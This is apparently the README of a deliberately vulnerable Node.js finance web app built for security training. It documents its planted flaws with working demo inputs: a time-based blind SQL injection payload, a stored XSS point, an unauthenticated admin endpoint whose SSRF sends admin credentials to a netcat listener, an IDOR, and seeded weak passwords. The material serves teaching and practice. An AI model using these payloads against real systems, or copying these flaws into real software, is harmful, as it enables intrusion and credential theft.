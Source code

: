 # Unhackable Finance Application
<div id="top"></div>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
      <ul>
        <li><a href="#built-with">Built With</a></li>
      </ul>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#prerequisites">Prerequisites</a></li>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>

  </ol>
</details>



<!-- ABOUT THE PROJECT -->
## About The Project

This is a intentionally vulnerable web application to demonstrate security issues. 


<p align="right">(<a href="#top">back to top</a>)</p>



### Built With

* [Node.js](https://nodejs.dev/)
* [Express](https://expressjs.com/)
* [Mysql](https://www.mysql.com/)
* [Sequelize ORM](https://sequelize.org/)
* [Bootstrap](https://getbootstrap.com/docs/5.2/getting-started/introduction/)

Royalty free stock images from [Pixabay](https://pixabay.com/)


<p align="right">(<a href="#top">back to top</a>)</p>



<!-- GETTING STARTED -->
## Getting Started

To get a local copy up and running follow these simple example steps.

### Prerequisites

* npm
  ```sh
  npm install npm@latest -g
  ```
* mysql -- see [downloads](https://www.mysql.com/downloads/)


### Installation

1. Clone this repo: 
```sh 
git clone https://github.com/malaphar/unhackable-bd.git && cd unhackable-bd
```
2. Setup MySQL database: 
```sh
mysql.server start # If mysql isn't running. Note instructions done on MacOS
mysql -u {Your Username} -p
CREATE DATABASE unhack_db;
```
Alternatively SOURCE the ./db/schema.sql

3. Install Node packages *Ensure you're in the project folder ``unhackable-bd/``*:
```sh
npm install
```
4. Setup a ```.env``` file. See the ```.env.EXAMPLE``` copy this and remove .EXAMPLE add your mysql credentials
5. Seed the database:
```sh
npm run seed
```  
6. Start the server:
```sh
npm run start
```
If developing to use nodemon run:
```sh
npm run dev
```
The server should be running at [localhost:3000](http://localhost:3000)


<p align="right">(<a href="#top">back to top</a>)</p>



<!-- USAGE EXAMPLES -->
## Usage

### Base User Page

App default is ```http://localhost:3000/``` this is the base general user area. 

#### XSS

Contact an Investment Professional:
This is the stored cross-site scripting injection point, which will affect authenticated users on the dashboard - messages feature. Note: This leverages ```innerHTML``` don't use ``<script>`` tags or spaces in the payload. Demo exploits found in ``/exploit.js``

![set_xss](./repo_images/set-xss.png)

#### SQLi

Search: This is the SQL injection location a good query would be XYZ, which will return results. Including a single quote or anything to cause a SQL error will show a Db error but no further details making exploitation blind. Examples:

*Valid*

Request: ```/search?search=XYZ```
Response: ```[[{"id":1,"ticker":"XYZ"}],[{"id":1,"ticker":"XYZ"}]]```

*SQL Error*

Request: ```/search?search=%27```
Response: ```SequelizeDatabaseError```

*SQL Injection*

Request: ```/search?search=%27%2b(select*from(select(sleep(10)))a)%2b%27```
Response: Will sleep for 10 seconds showing SQLi then return - ```[[{"id":1,"ticker":"XYZ"},{"id":2,"ticker":"ABC123"}],[{"id":1,"ticker":"XYZ"},{"id":2,"ticker":"ABC123"}]]```

#### Enumeration

Robots provides all the endpoints needed:

```
User-agent: *
User-agent: AdsBot-Google

Disallow: /
Disallow: /u/admin/settings
Disallow: /u/login
Disallow: /u/*
```

### Login 

Located at ``/u/login`` some basic creds are setup if the database was seeded:

username: trader
password: password12345

username: investor
password: password12345

username: admin
password: admin

User's can either guess the "admin" password or exploit SSRF to gain credentials

*Note:* No real roles admin and users are the same 

#### SSRF

Located at ``/u/admin/settings`` this endpoint has an auth issue and does not enforce any auth. It is also exploitable to SSRF:

![SSRF](./repo_images/ssrf.png)

Setting the Hook URL will send the credentials configured (it's pre-configured with admin creds) to this URL. You can use netcat to listen on localhost assuming local setup, as shown below:

Hook URL: http://127.0.0.1:1337
```sh
nc -nklvv 1337
```
Run Test Connection:

```sh
malaphar@berlin ~ % nc -nklvv 1337
POST / HTTP/1.1
Content-Type: text/plain;charset=UTF-8
Accept: */*
Content-Length: 29
User-Agent: node-fetch/1.0 (+https://github.com/bitinn/node-fetch)
Accept-Encoding: gzip,deflate
Connection: close
Host: 127.0.0.1:1337

username=admin&password=admin
```

*Note:* This request will be triggered by the server and send the already defined admin password if a new one hasn't been entered. If the user changes the admin password and saves this path will no longer work for exposing "real" credentials but the SSRF will still exist exposing whatever credential has been entered. 

### Authenticated User 

Endpoint is ```/u/dashboard``` upon login this is where you'll land. It is also where the <a href="#xss">XSS</a> executes. By default it will pull "stock trade" data for the current user but this is affected by an IDOR authentication is enforced but authorization is not e.g., ```/u/dashboard?user_id=3``` and ```/u/dashboard?user_id=2```.

![Dashboard](./repo_images/dashboard.png)

#### Misc

There are a few other bugs throughout to find but the above are the main educational ones.


<p align="right">(<a href="#top">back to top</a>)</p>

